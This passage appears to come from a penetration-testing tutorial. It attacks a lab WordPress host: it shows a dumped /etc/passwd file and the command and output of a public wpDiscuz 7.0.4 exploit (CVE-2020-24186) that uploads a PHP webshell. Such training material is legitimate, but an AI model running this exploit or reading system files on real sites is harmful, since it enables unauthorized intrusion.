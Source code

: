 ```shell-session
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
```

### **Vulnerable Plugins - wpDiscuz**

[wpDiscuz](https://wpdiscuz.com/) is a WordPress plugin for enhanced commenting on page posts. At the time of writing, the plugin had over [1.6 million downloads](https://wordpress.org/plugins/wpdiscuz/advanced/) and over 90,000 active installations, making it an extremely popular plugin that we have a very good chance of encountering during an assessment. Based on the version number (7.0.4), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution. The crux of the vulnerability is a file upload bypass. wpDiscuz is intended only to allow image attachments. The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution. More on the mime type detection functions bypass can be found [here](https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/).

The exploit script takes two parameters: `-u` the URL and `-p` the path to a valid post.

```shell-session
$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...
```
